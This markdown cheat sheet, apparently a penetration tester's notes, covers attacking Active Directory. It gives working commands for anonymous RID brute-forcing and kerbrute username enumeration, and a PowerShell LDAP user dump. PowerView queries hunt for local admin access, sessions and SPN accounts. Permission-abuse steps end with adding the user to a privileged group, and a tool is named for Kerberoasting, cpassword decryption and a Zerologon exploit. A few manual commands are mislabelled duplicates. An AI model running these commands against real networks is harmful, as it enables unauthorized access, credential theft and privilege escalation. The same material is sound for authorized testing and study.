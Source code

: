 # On Linux - No Account
```bash
# netexec
nxc smb $ip -u anonymous/Guest -p "" --rid-brute 10000

# kerbrute - username enumeration
kerbrute -domain $domain -dc-ip $ip -users tools/payloads/SecLists/Usernames/xato-net-10-million-usernames.txt
```

# On Windows - With Domain Account
## Manual
```powershell
# List users of the domain
net user /domain

# Inspect an user
net user /domain

# List groups
net user /domain

# Inspect group
net group "Sales Department" /domain
```

- Script (script.ps1) to enumerate users and get their infos :
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domainObj.PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368"
$result = $dirsearcher.FindAll()

Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }

    Write-Host "-------------------------------"
}
```

## With Powerview
https://github.com/PowerShellMafia/PowerSploit/
```powershell
Import-Module .\PowerView.ps1

# Domain information
Get-NetDomain

# Querying users in the domain
Get-NetUser
Get-NetUser | select cn
Get-NetUser | select cn,pwdlastset,lastlogon

# Querying groups in the domain
Get-NetGroup
Get-NetGroup | select cn
Get-NetGroup "Sales" | select member

# Querying computers in the domain
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname

# Scanning domain to find local administrative privileges for our user
Find-LocalAdminAccess

# Check Logged on users
Get-NetSession -ComputerName files04 -Verbose

# List the SPN accounts
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### Objects permissions exploitation
- Most interesting objects permissions :
```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

```powershell
Get-ObjectAcl -Identity stephanie

# Converting the ObjectISD into name
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104

# Converting the SecurityIdentifier into name
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553


# Checking what objects has GenericAll in the Management Department Group
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Convert the SIDs found into names
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

# Add ourselves to the Group
net group "Management Department" stephanie /add /domain
```

# Automatic tools
## AD Enum

* ASREPRoasting
* Kerberoasting
* Dump AD as BloodHound JSON files
* Searching GPOs in SYSVOL for cpassword and decrypting
* Run without credentials and attempt to gather for further enumeration during the run
* Sample exploits included:
  * **CVE-2020-1472**

https://github.com/CasperGN/ActiveDirectoryEnumeration

```bash
pip3 install ActiveDirectoryEnum
python -m ade

# query exploit for poc
python -m ade --exploit cve-2020-1472
```

